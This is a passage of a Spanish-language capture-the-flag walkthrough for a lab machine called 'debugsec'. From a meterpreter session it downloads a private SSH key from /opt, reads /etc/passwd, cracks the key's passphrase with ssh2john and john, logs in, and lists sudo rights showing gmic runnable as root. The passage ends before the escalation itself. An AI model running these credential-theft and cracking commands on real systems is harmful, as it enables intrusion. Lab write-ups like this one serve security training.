 Obtenemos una sesion de meterpreter.  Ahora buscando por el servidor encontramos una clave privada en el directorio`/opt`. Nos la descargamos a nuestro equipo y vemos que usuarios hay en el sistema leyendo el fichero `/etc/passwd`:

```bash

meterpreter > cd /opt
meterpreter > ls
Listing: /opt
=============

Mode              Size  Type  Last modified            Name
----              ----  ----  -------------            ----
100755/rwxr-xr-x  3434  fil   2024-06-28 18:52:01 +02  id_rsa

meterpreter > download id_rsa
[*] Downloading: id_rsa -> /home/murrusko/id_rsa
[*] Downloaded 3.35 KiB of 3.35 KiB (100.0%): id_rsa -> /home/murrusko/id_rsa
[*] Completed  : id_rsa -> /home/murrusko/id_rsa 

meterpreter > cat /etc/passwd
debugsec:x:1001:1001::/home/debugsec:/bin/bash
                       
```

Ya tenemos un supuesto usuario con su clave privada. Le cambiamos el permiso a la clave privada h probamos a conectarnos:

```bash
$ chmod 400 id_rsa
$ ssh -i id_rsa debugsec@10.0.2.144
Enter passphrase for key 'id_rsa':
```

Nos pide una clave. Intentamos romperla con john.

```bash
$ ssh2john id_rsa > ssh_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash
pangga           (id_rsa)
```

Una vez obtenida la contraseña nos conectamos al sistema y obtenemos la flag de user.

```bash
$ ssh -i id_rsa debugsec@10.0.2.144
Last login: Fri Jun 28 18:57:57 2024 from 192.168.18.19
debugsec@debugsec:~$
```

# Escalada de privilegios

Miramos si puede ejecutar algo como usuario root con `sudo -l`:

```bash
debugsec@debugsec:~$ sudo -l
Matching Defaults entries for debugsec on debugsec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User debugsec may run the following commands on debugsec:
    (root) NOPASSWD: /usr/bin/gmic
```
